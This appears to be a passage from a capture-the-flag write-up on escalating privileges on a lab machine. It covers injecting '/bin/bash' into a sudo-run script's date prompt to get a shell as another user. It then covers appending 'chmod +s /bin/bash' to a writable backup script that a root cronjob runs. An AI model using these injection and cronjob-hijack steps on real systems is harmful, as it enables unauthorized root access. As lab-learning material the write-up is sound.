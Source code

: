 Where the script asks for `date` if you supply it with `/bin/bash` This will spawn a bash shell. Due to the fact that we have ran this as the `gyles` this bash shell will belong to him

```bash
dale@TEAM:~$ sudo -u gyles /home/gyles/admin_checks
Reading stats.
Reading stats..
Enter name of person backing up the data: anon
Enter 'date' to timestamp the file: /bin/bash
The Date is id
uid=1001(gyles) gid=1003(editors) groups=1003(editors)
```
No we have a shell as gyles! Although this shell is quite basic.

---
## Root Priv Esc

This shell is quite resrictive due to it being launched from the script.

After snooping around the system I found the following folder `/opt/admin_stuff` in this folder is a `script.sh`

```bash
#!/bin/bash
#I have set a cronjob to run this script every minute


dev_site="/usr/local/sbin/dev_backup.sh"
main_site="/usr/local/bin/main_backup.sh"
#Back ups the sites locally
$main_site
$dev_site
```
Looks this this script runs as `root` every minute. It also calls two other scripts lets see if we have write permissions on any of these folders

```bash
drwxr-xr-x 10 root root  4096 Jan 15 19:49 .
drwxr-xr-x 10 root root  4096 Jan 15 19:49 ..
drwxrwxr-x  2 root admin 4096 Jan 17 19:48 bin
drwxr-xr-x  2 root root  4096 Apr 26  2018 etc
drwxr-xr-x  2 root root  4096 Apr 26  2018 games
drwxr-xr-x  2 root root  4096 Apr 26  2018 include
drwxr-xr-x  3 root root  4096 Jan 15 19:49 lib
lrwxrwxrwx  1 root root     9 Jan 15 19:49 man -> share/man
drwxr-xr-x  2 root root  4096 Jan 17 19:45 sbin
drwxr-xr-x  4 root root  4096 Jan 15 19:49 share
drwxr-xr-x  2 root root  4096 Apr 26  2018 src
```

I have full permisisons in the `bin` folder,The folder contains the `main_backup.sh` I have full r/w permsissions so anything in put in the script will be executed as `root`.

`echo "chmod +s /bin/bash" >> main_backup.sh`
